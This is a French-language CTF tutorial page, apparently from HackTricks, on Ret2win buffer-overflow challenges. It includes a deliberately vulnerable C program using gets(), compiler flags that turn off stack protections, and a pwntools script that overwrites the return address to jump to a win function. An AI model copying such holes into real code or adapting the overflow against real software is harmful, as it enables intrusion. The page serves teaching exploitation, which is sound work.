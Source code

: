 # Ret2win

{{#include ../../../banners/hacktricks-training.md}}

## Informations de base

Les défis **Ret2win** sont une catégorie populaire dans les compétitions **Capture The Flag (CTF)**, en particulier dans les tâches impliquant **l'exploitation binaire**. L'objectif est d'exploiter une vulnérabilité dans un binaire donné pour exécuter une fonction spécifique, non invoquée, au sein du binaire, souvent nommée quelque chose comme `win`, `flag`, etc. Cette fonction, lorsqu'elle est exécutée, imprime généralement un drapeau ou un message de succès. Le défi implique généralement de remplacer l'**adresse de retour** sur la pile pour détourner le flux d'exécution vers la fonction souhaitée. Voici une explication plus détaillée avec des exemples :

### Exemple en C

Considérons un programme C simple avec une vulnérabilité et une fonction `win` que nous avons l'intention d'appeler :
```c
#include <stdio.h>
#include <string.h>

void win() {
printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
char buf[64];
gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
vulnerable_function();
return 0;
}
```
Pour compiler ce programme sans protections de pile et avec **ASLR** désactivé, vous pouvez utiliser la commande suivante :
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
- `-m32`: Compiler le programme en tant que binaire 32 bits (c'est optionnel mais courant dans les défis CTF).
- `-fno-stack-protector`: Désactiver les protections contre les débordements de pile.
- `-z execstack`: Autoriser l'exécution de code sur la pile.
- `-no-pie`: Désactiver l'exécutable indépendant de la position pour s'assurer que l'adresse de la fonction `win` ne change pas.
- `-o vulnerable`: Nommer le fichier de sortie `vulnerable`.

### Exploit Python utilisant Pwntools

Pour l'exploit, nous utiliserons **pwntools**, un puissant framework CTF pour écrire des exploits. Le script d'exploit créera une charge utile pour déborder le tampon et écraser l'adresse de retour avec l'adresse de la fonction `win`.
```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```
Pour trouver l'adresse de la fonction `win`, vous pouvez utiliser **gdb**, **objdump** ou tout autre outil qui vous permet d'inspecter des fichiers binaires. Par exemple, avec `objdump`, vous pourriez utiliser :
```sh
objdump -d vulnerable | grep win
```
Cette commande vous montrera l'assemblage de la fonction `win`, y compris son adresse de départ.

Le script Python envoie un message soigneusement élaboré qui, lorsqu'il est traité par la `vulnerable_function`, déborde le tampon et écrase l'adresse de retour sur la pile avec l'adresse de `win`. Lorsque `vulnerable_function` retourne, au lieu de retourner à `main` ou de sortir, il saute à `win`, et le message est imprimé.

## Protections

- [**PIE**](../common-binary-protections-and-bypasses/pie/index.html) **doit être désactivé** pour que l'adresse soit fiable à travers les exécutions, sinon l'adresse où la fonction sera stockée ne sera pas toujours la même et vous auriez besoin d'une fuite pour déterminer où la fonction win est chargée. Dans certains cas, lorsque la fonction qui cause le débordement est `read` ou similaire, vous pouvez faire un **Partial Overwrite** de 1 ou 2 octets pour changer l'adresse de retour afin qu'elle soit la fonction win. En raison de la façon dont fonctionne l'ASLR, les trois derniers nibbles hexadécimaux ne sont pas randomisés, donc il y a une **chance de 1/16** (1 nibble) d'obtenir la bonne adresse de retour.
- [**Stack Canaries**](../common-binary-protections-and-bypasses/stack-canaries/index.html) doivent également être désactivés ou l'adresse de retour EIP compromise ne sera jamais suivie.

## Autres exemples & Références

- [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
- [https://guyinatuxedo.github.io/04-bof_variable/tamu19_pwn1/index.html](https://guyinatuxedo.github.io/04-bof_variable/tamu19_pwn1/index.html)
- 32 bits, pas d'ASLR
- [https://guyinatuxedo.github.io/05-bof_callfunction/csaw16_warmup/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/csaw16_warmup/index.html)
- 64 bits avec ASLR, avec une fuite de l'adresse binaire
- [https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html)
- 64 bits, pas d'ASLR
- [https://guyinatuxedo.github.io/05-bof_callfunction/tu17_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/tu17_vulnchat/index.html)
- 32 bits, pas d'ASLR, double petit débordement, premier à déborder la pile et agrandir la taille du second débordement
- [https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
- 32 bits, relro, pas de canary, nx, pas de pie, chaîne de format pour écraser l'adresse `fflush` avec la fonction win (ret2win)
- [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
- 64 bits, relro, pas de canary, nx, pie. Partial overwrite pour appeler la fonction win (ret2win)

{{#include ../../../banners/hacktricks-training.md}}
